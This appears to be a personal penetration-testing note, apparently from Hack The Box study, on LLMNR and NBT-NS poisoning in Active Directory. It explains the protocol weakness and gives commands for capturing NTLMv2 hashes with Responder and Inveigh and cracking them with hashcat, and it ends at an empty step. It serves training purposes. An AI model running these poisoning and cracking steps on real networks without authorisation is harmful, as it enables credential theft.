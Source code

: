 ```yaml
---
date: 2025-06-08
tags:
  - ActiveDirectory
  - Technique
  - LLMNR
  - NBT-NS
  - Poisoning
---
```

```table-of-contents
```
# LLMNR & NBT-NS
- Microsoft Windows components that serve as alternate methods of host identification that can be used when DNS fails.
- Link-Local Multicast Name Resolution (LLMNR)
	- `UDP 5355` natively
	- If a machine attempts to resolve a host but DNS resolution fails, the machine will try to ask all other machines on the local network for the correct host address via LLMNR. 
- NetBIOS Name Service (NBT-NS)
	- If LLMNR fails, the NBT-NS will be used. NBT-NS identifies systems on a local network by their NetBIOS name. 
	- `UDP 137` natively
## Weak Point
- When LLMNR/NBT-NS are used for name resolution, ==ANY host on the network can reply==. 
- This is where we come in with `Responder` to poison these requests. 
- With network access, we can spoof an authoritative name resolution source ( in this case, a host that's supposed to belong in the network segment ) in the broadcast domain by responding to LLMNR and NBT-NS traffic as if they have an answer for the requesting host.
## Tools
|                                                       |                                                                                                     |
| ----------------------------------------------------- | --------------------------------------------------------------------------------------------------- |
| [Responder](https://github.com/lgandx/Responder)      | Responder is a purpose-built tool to poison LLMNR, NBT-NS, and MDNS, with many different functions. |
| [Inveigh](https://github.com/Kevin-Robertson/Inveigh) | Inveigh is a cross-platform MITM platform that can be used for spoofing and poisoning attacks.      |
| [Metasploit](https://www.metasploit.com/)             | Metasploit has several built-in scanners and spoofing modules made to deal with poisoning attacks.  |
# From Linux Attack Host

1. Start Responder, and then run other enumeration tasks against the network to see what hashes responder picks up
```bash
sudo responder -I ens224 
```
2. Pass these hashes to `Hashcat` for cracking
```bash
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt 
```

# From Windows Attack Host

1. Use `Inveigh`. Import it onto PowerShell
```powershell-session
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters
```
2. Start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to a file.
```powershell-session
PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
3. 